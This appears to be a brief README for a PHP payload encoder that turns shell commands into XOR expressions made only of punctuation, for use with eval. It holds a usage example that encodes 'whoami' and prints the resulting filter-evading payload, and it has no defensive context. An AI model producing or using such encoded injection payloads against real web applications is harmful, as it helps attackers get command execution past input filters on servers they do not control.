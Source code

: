 # Non-AlphanumericPhpEvalPayloadEncoder

ex) /.Non-AlphanumericPhpEvalPayloadEncoder.exe whoami \`\n
result: ('('^'_').('('^'@').('/'^'@').('!'^'@').('-'^'@').(')'^'@')
